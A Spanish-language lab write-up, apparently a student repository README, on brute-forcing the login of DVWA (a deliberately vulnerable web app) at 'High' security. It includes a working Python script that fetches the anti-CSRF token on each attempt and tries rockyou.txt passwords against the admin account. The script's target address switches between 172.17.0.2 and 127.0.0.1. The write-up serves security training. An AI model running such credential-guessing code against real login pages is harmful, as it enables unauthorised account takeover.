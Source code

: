 # Fuerza Bruta en DVWA - Práctica

## 📋 Descripción

Esta práctica consiste en realizar un ataque de fuerza bruta a la aplicación **DVWA (Damn Vulnerable Web App)** para romper la autenticación del módulo de **Brute Force** utilizando un script en Python y el diccionario `rockyou.txt`.

## 🛠️ Entorno de trabajo

- **Sistema Operativo**: Linux Mint 21
- **Aplicación objetivo**: DVWA (Damn Vulnerable Web App)
- **IP DVWA**: `172.17.0.2` (localhost)
- **Lenguaje del script**: Python 3
- **Herramientas utilizadas**:
  - Python 3
  - Librerías `requests` y `BeautifulSoup`
  - Diccionario `rockyou.txt`

## ⚙️ Configuración inicial

- **Estado de seguridad de DVWA**: `High`
- **Configuración de la base de datos**: Correcta
- **Observaciones**: Se requiere el token `user_token` en cada petición.

![Setup DVWA](assets/1-DVWAsetup.PNG)

## 🧩 Script de Fuerza Bruta

El script realiza las siguientes acciones:
- Establece una sesión usando cookies para seguridad alta.
- Obtiene dinámicamente el `user_token` necesario para cada intento.
- Prueba contraseñas del diccionario `rockyou.txt` una a una.
- Detecta el éxito cuando encuentra el mensaje `Welcome`.

Fragmento del script:

```python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = 'http://172.17.0.2/vulnerabilities/brute/'
headers = CaseInsensitiveDict()
headers["Cookie"] = "security=high; PHPSESSID=rqs9b9elru16hltg6gvagkek195"

r = requests.get(url, headers=headers)
r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open('rockyou.txt', 'rb') as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            al = i.decode()
        except UnicodeDecodeError:
            print(f"can't decode {i}")
            continue

        r = requests.get(f'http://127.0.0.1/vulnerabilities/brute/?username=admin&password={al}&Login=Login&user_token={user_token}#', headers=headers)
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        
        print(f'checking {al}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{al}   ===found===')
            break
